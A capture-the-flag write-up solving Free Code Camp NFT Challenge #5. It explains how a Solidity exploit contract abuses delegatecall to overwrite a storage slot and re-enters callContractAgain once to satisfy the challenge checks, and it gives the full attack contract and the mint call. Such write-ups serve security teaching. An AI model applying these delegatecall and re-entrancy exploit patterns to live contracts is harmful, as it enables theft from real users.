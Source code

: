 # Free Code Camp NFT Challenge #5

# Problems
We need to execute the `MintNFT` function in the main contract, before minting the NFT, the contract checks for the following

```ts
function mintNft(address yourAddress, bytes4 selector) public returns (uint256) {
        //is the getOwner function of your contract returns your address/msg.sender?
        if (OtherContract(yourAddress).getOwner() != msg.sender) {
            revert CourseCompletedNFT__NotOwnerOfOtherContract();
        }
        //does both of the function call below returns True? 
        bool returnedOne = s_vulnerableContract.callContract(yourAddress);
        bool returnedTwo = s_vulnerableContract.callContractAgain(yourAddress, selector);

        if (!returnedOne && !returnedTwo) {
            revert CourseCompletedNFT__Nope();
        }
    }
```

Looking deeper at the `VulnerableContract`,

```js
uint256 public s_variable = 0;
uint256 public s_otherVar = 0;
function callContract(address yourAddress) public returns (bool) {
        //does the doSomething function of your contract returns True?
        (bool success, ) = yourAddress.delegatecall(abi.encodeWithSignature("doSomething()"));
        require(success);
        //??? s_variable must have value 123?
        if (s_variable != 123) {
            revert VulnerableContract__NopeCall();
        }
        s_variable = 0;
        return true;
    }

    function callContractAgain(address yourAddress, bytes4 selector) public returns (bool) {
        s_otherVar = s_otherVar + 1;
        //does the function with the specified selector of your contract returns True?
        (bool success, ) = yourAddress.call(
            abi.encodeWithSelector(selector)
        );
        require(success);

        //??? s_otherVar must have value 2? shouldn't it be 1?
        if (s_otherVar == 2) {
            return true;
        }
        s_otherVar = 0;
        return false;
    }
```

Ok, so we need to make a contract that fulfills both of the function in `vulnerableContract`, but how?

# Noticing the attack vectors
Hmmmm.... the first function use delegateCall instead of normal call, a bit sus innit? 

the second function is making an external function in your contract with the selector,  A common exploit on an external call to untrusted contract is Re-entrancy Attack, so maybe it is how we attack it?

# Understanding delegateCall
delegateCall is a function that allows you to call a function in another contract, but the context of the caller is the current contract, so the `msg.sender` is the current contract, not the caller of the function.

In short , it copy the function of the target Contract and execute it in current contract(storage, `msg.sender`, etc)

For example if the `doSomething()` of target contract modify the first variable on the storage slot to `69`, the first storage slot on the current contract will also be modified to `69`

# Understanding Re-entrancy Attack
Re-entrancy Attack is a type of attack that allows the attacker to call the same function again before the function is finished, so the attacker can call the function again and again, and the function will be executed multiple times before the first one is completed. Kinda like how recursive works.

# Building the attack contract
We can notice that the `s_variable` is stored the first storage slot.
```js
contract VulnerableContract {
    error ...
    uint256 public s_variable = 0;
```
Since the first function call used delegateCall on our function `doSomething()`, to modify the `s_variable` to `123` we just need to modify the first storage slot to `123` in our function.

```js
contract Exploit{
    uint firstStorage;  //variable on first storage slot
 
    function doSomething() public returns (bool){
        firstStorage = 123;
        return true;
    }
```

The second function call we need to re-entrance the function. And we need to do that just once so the `s_otherVar` == 2 Therefore the `if(step%2==0)`. since we know that this function will only by called by the `VulnerableContract`, we can just use `VulnerableContract(msg.sender)`. We also need to make sure the contract will call our function again so we input the our function selector to the parameter. The bytes memory are just there to fullfil the interface.

```js
uint step;//re-entrancy counter
//JOKOWI IS JUST AN ARBITRARY NAME, TRUST ME
function jokowi() public returns (bool, bytes memory){
        step = ++step;
        if(step%2 == 0){
            return (true, abi.encode(true));
        }
        VulnerableContract(msg.sender).callContractAgain(address(this), bytes4(keccak256("jokowi()")));
        bytes memory co = bytes('asu');
        return (true, co);
    }
```

Don't forget for the `getOwner()` that will return our address. you can hardcode it or just use tx.origin.
    
```js
function getOwner() public view returns (address){
        return tx.origin;
}
```

# Final contract
```js
contract Exploit{
    uint firstStorage;  //variable on first storage slot
    uint step=0; //re-entrancy counter

    function doSomething() public returns (bool){
        firstStorage = 123;
        return true;
    }

    function jokowi() public returns (bool, bytes memory){
        step = ++step;
        if(step%2 == 0){
            return (true, abi.encode(true));
        }
        VulnerableContract(msg.sender).callContractAgain(address(this), bytes4(keccak256("jokowi()")));
        bytes memory co = bytes('asu');
        return (true, co);
    }

    function getOwner() public view returns (address){
        return tx.origin;
    }
} 
```

# calling the mintNFT function
```js
await contract.mintNft(YOUR_DEPLOYED_EXPLOIT_CONTRACT_ADDRESS, bytes4(keccak256("jokowi()")));
```
